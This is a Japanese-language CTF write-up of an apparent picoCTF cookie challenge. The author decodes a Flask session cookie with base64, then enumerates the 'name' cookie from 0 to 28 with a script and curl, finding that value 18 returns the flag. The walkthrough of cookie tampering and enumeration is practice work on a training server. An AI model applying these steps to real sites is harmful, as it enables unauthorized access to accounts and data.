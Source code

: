自力解答ならず。  

OWASP ZAPで``http://mercury.picoctf.net:21485/``に接続。  
``http://mercury.picoctf.net:21485/search``にPOSTしたら、

```
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:21485/
Set-Cookie: name=-1; Path=/
Vary: Cookie
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YnYvlA.tNQHCbGUilWsYdWrb-q_AmxM_1k; HttpOnly; Path=/
```

```
GET http://mercury.picoctf.net:21485/ HTTP/1.1
Host: mercury.picoctf.net:21485
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Referer: http://mercury.picoctf.net:21485/
Connection: keep-alive
Cookie: name=-1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YnYvlA.tNQHCbGUilWsYdWrb-q_AmxM_1k
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2398
Set-Cookie: session=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0; Path=/

<!DOCTYPE html>
<html lang="en">
...
That doesn&#39;t appear to be a valid cookie.
...
</html>
```

不正なクッキーはすぐに削除されるらしい。  

``session``クッキーを解読してみる。  

```bash
$ echo -n "eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YnYvlA.tNQHCbGUilWsYdWrb-q_AmxM_1k" | base64 -d
{"_flashes":[{" t":["danger","That doesn't appear to be a valid cookie."]}]}base64: invalid input
```

何回か``http://mercury.picoctf.net:21485/search``にPOSTしてみたが、１つ目の``.``より前の部分（"eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ"）は共通らしい。  

解読できた部分を``a.txt``に保存。  

```
{"_flashes":[{" t":["danger","That doesn't appear to be a valid cookie."]}]}
```

```bash
$ cat a.txt | base64
eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBh
IHZhbGlkIGNvb2tpZS4iXX1dfQo=
```

あれ、改行入るんか。じゃあこれならどうだ。  

```bash
$ cat a.txt | base64 | sed -z 's/\n//g' | base64 -d
{"_flashes":[{" t":["danger","That doesn't appear to be a valid cookie."]}]}
```

改行を除去してもいけるやん。  

じゃあ書き換えたjsonを``b.txt``に保存し、それをbase64エンコードしたものをクッキーの一部と入れ替えたら？  

```
{"_flashes":[{" t":["info","Give me a flag."]}]}
```

```bash
$ cat b.txt | base64 | sed -z 's/\n//g'
eyJfZmxhc2hlcyI6W3siIHQiOlsiaW5mbyIsIkdpdmUgbWUgYSBmbGFnLiJdfV19Cg==
```

駄目でした。  

### 正解

なぜ``name``クッキーを気にもとめなかったのか。  

プレースホルダーがヒントらしい。``scikerdoodle``をPOSTしたら``http://mercury.picoctf.net:21485/check``にリダイレクトする。このときの``name``クッキーの値は``0``。  

```html
<b>I love snickerdoodle cookies!<b>
```

OWASP ZAPで``301``がかえってきたところにブレークポイントを貼り、``name=1``にしてリダイレクト先を``http://mercury.picoctf.net:21485/check``に書き換えてみると、表示されるメッセージが少し異なる。  

```html
<b>I love chocolate chip cookies!<b>
```

``chocolate chip``をPOSTすると、``name``クッキーを``1``に書き換えたときと変わらない。  
``2``なら``I love oatmeal raisin cookies!``が表示される。  

二分探索するか。``100``はだめ。``50``もだめ。``25``はOk......。てかもうOWASP ZAPじゃなくてPythonでええわ。  

```bash
$ python3 crack.py
name=0: I love snickerdoodle cookies!
name=1: I love chocolate chip cookies!
name=2: I love oatmeal raisin cookies!
name=3: I love gingersnap cookies!
name=4: I love shortbread cookies!
name=5: I love peanut butter cookies!
name=6: I love whoopie pie cookies!
name=7: I love sugar cookies!
name=8: I love molasses cookies!
name=9: I love kiss cookies!
name=10: I love biscotti cookies!
name=11: I love butter cookies!
name=12: I love spritz cookies!
name=13: I love snowball cookies!
name=14: I love drop cookies!
name=15: I love thumbprint cookies!
name=16: I love pinwheel cookies!
name=17: I love wafer cookies!
name=18: invalid name.
name=19: I love macaroon cookies!
name=20: I love fortune cookies!
name=21: I love crinkle cookies!
name=22: I love icebox cookies!
name=23: I love gingerbread cookies!
name=24: I love tassie cookies!
name=25: I love lebkuchen cookies!
name=26: I love macaron cookies!
name=27: I love black and white cookies!
name=28: I love white chocolate macadamia cookies!
Traceback (most recent call last):
...
```

``name=28``で上限らしいのは手動で確認済みだからいいとして、``name=18``が気になる。  
ついでに言えば、``session``クッキーはなくてもまったく問題なかった。  

```bash
$ curl -H 'Referer: http://mercury.picoctf.net:21485/' -b 'name=18' http://mercury.picoctf.net:21485/check
```

フラグを入手した。おれの前半の無駄な努力は一体。  
